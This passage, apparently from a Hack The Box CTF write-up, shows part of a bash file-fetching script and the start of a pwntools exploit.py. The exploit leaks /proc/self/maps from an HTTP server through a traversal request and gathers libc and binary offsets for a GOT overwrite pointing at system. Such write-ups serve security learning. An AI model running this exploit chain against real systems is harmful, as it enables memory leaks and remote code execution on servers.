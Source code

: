 ~~~~bash
         "http://$HOST:$PORT/$PAYLOAD"
else
    curl -s \
         -o $TEMP \
         "http://$HOST:$PORT/$PAYLOAD"
fi

if cat $TEMP | grep -Ea '^<' &>/dev/null; then
    cat $TEMP | html2text && clean
else
    cat $TEMP && clean
fi
~~~~

See? Memory address leak.

{% include image.html image_alt="f11c0aeb.png" image_src="/b257ffe0-a524-4c2e-9270-99674181d9c2/f11c0aeb.png" %}

Last but not least, we need to locate the offsets of `puts`, `printf`, `system` and `<log_access+110>`. Combined with the base memory address leak of `httpserver` and `libc`, we now know where and what to overwrite.

***`printf` and `puts` offsets in `httpserver`***

{% include image.html image_alt="fbac5210.png" image_src="/b257ffe0-a524-4c2e-9270-99674181d9c2/fbac5210.png" %}

***`<log_access+110>` offset in `httpserver`***

{% include image.html image_alt="0523c084.png" image_src="/b257ffe0-a524-4c2e-9270-99674181d9c2/0523c084.png" %}

***`_system` offset in `libc`***

{% include image.html image_alt="ee64c2c9.png" image_src="/b257ffe0-a524-4c2e-9270-99674181d9c2/ee64c2c9.png" %}

Armed with these insights, we can now write our exploit.

<div class="filename"><span>exploit.py</span></div>

~~~~python
from pwn import *
from urllib import quote

context.clear(arch="i386")

maps = '''\
GET //proc/self/maps HTTP/1.1
Range: bytes=0-{}

'''.format(str(1024*1024))

r = remote("10.10.10.148", 9999)
r.send(maps)

info("Getting /proc/self/maps")

httpserver = None
libc = None

while True:
    try:
        line = r.recvline()
    except EOFError:
        break
    if httpserver is None and "httpserver" in line:
        httpserver = int(line[:8], 16)
~~~~

[1]: https://www.hackthebox.eu/home/machines/profile/200
[2]: https://www.hackthebox.eu/home/users/profile/13243
[3]: https://www.hackthebox.eu/